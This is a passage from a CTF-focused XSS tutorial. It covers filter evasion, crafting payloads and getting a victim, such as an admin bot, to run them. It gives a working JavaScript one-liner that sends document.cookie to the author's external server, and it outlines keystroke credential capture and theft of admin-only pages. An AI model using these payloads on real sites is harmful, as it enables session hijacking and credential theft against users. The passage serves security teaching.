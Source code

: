 There is [a list on OWASP.org](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) that contains dozens of different ways to bypass various XSS filters.

## Payloads
Once you have found a location where you can insert Javascript, almost all the work is done. The last thing you need to do is craft a payload that will give you what you want. Most CTF competitions will have a bot with a cookie in their browser, and direct you to steal that cookie. 

Since someone else will be running the Javascript that you provide, you have to find a way to exfiltrate the data. Printing to the console or on the screen will only show up for them. You must have them interact with another website in order to capture the data. The payload that I most commonly use is below:

```
var myImage = new Image(100, 200); myImage.src = 'https://justinapplegate.me/my_flag?is='+escape(document.cookie);
```

This simple one line script initializes an image object and sets the source for the image to my website with the cookie at the end. It automatically sends out an HTTP requests to the source link. Since I can look at all requests made to my webserver (even if they don't exist), all I need to do is refer to those logs and I'll see someone requested `https://justinapplegate.me/my_flag?is=flag{the_flag_is_here}`, thereby giving me the flag. 

This requires that you have access to your own website. If you don't have your own site, there are other sites that you can use for this purpose, such as ?

In the case that you want to steal something else, such as credentials that someone types into a login form, or copy the contents of a webpage that only admins can visit, you can modify this payload so the text sent in the URL is what you want. For credential stealing, you could create a payload that sends a url with the current value of an input tag each time a key is pressed. For a separate webpage's content, you could create an HTTP request in Javascript that requests the page and includes the entire content in the URL.

### Deploying the Payload
You've found a reflection point, been able to insert Javascript, and you've crafted your own payload to steal cookies, credentials, etc. Now you need to find a way to get the victim to run the code. Whether it's stored or reflected XSS, you'll need your victim to access a specific webpage. In real life, this would normally be through a phishing attempt or by exploiting an XSS vulnerability on another site to redirect them. In CTFs, they typically have an admin bot that will visit whatever link you submit to it, thereby making your payload deployment very easy. 